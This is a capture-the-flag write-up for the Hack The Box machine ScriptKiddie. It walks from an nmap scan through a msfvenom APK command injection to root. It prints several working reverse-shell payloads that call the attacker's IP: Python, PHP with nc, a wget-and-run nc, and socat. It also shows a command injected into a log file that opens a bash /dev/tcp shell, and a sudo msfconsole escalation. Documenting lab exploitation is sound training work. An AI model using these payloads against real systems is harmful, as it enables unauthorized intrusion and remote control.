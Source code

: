 ```yaml
---
layout: post
title: ScriptKiddie
published: false
---
```


### 10.10.10.226 - Linux


`nmap -sC -sV -oN nmap/basic scriptkiddie.htb`
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Webpage has different functionalities. Will run an nmap scan, create msfvenom payloads or search via searchsploit.
![Webpage](https://user-images.githubusercontent.com/60187707/120905511-1fcd6000-c618-11eb-84a6-366d172a44fb.png)

Found an RCE script for Werkzeuk but does not seem to work as the debugging function in question is not enabled on the server.
![[Pasted image 20210603130610.png]]

Linux payload always errors out, windows/android work no problem
the payloads are created in a `/static/payloads` directory but I cant access that directory

tried uploading php shell, elf payload but nothing seems to work

 [apk.py](https://packetstormsecurity.com/files/161200/Metasploit-Framework-6.0.11-Command-Injection.html)
 Exploits a vulnerability in `msfvenom` that executes a payload hidden inside a `.apk` template. Use `apk.py` to generate the malicious package.
 ![[Pasted image 20210604102216.png]]

#### Attempt 1
```
python -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“10.10.14.16”,4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);’`
```
#### Attempt 2
```
<?php
system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.16 4444 >/tmp/f');
?>
```

I have RCE, can get the webserver to pull files from my webserver. 
IDK where those files are placed.
#### Attempt 3
`wget http://10.10.14.16:80/nc -P /tmp/ ; ./tmp/nc 10.10.14.16 4444 -e /bin/sh`

#### WINNER WINNER
`wget -q http://10.10.14.16/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.16:4444
`
![[Pasted image 20210604101927.png]]
My first time using socat. Time to add it to the cheat sheet I suppose.

#### Privesc Possibilities
~~[Sudo 1.8.31 PrivEsc Vuln](https://www.exploit-db.com/exploits/49521)~~
The script `scanlosers.sh` uses data from the file `/home/kid/logs/hackers` to run the `nmap` command in the script.
![[Pasted image 20210604121547.png]]

I can write to `hackers` because `kid` is the owner.
![[Pasted image 20210604121933.png]]

So, I'll start a listener and `echo` a reverse shell into `hackers`
`echo "  ; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.16/1234 0>&1' #" >> hackers`
`#` at the end of my commands tell the shell to ignore anything else that comes after, so I can escape the intended execution in the script.

Now, I'm on as user `pwn`
![[Pasted image 20210604122051.png]]

`sudo -l` to check `pwn`'s permissions.
![[Pasted image 20210604122204.png]]
I can run `msfconsole` as `root` without a password. Seems promising!

Checking the `msfconsole` help page, I find a `-x` flag that will execute console commands. Could it be that easy?
`sudo msfconsole -x su`
![[Pasted image 20210604122329.png]]
Apparently!
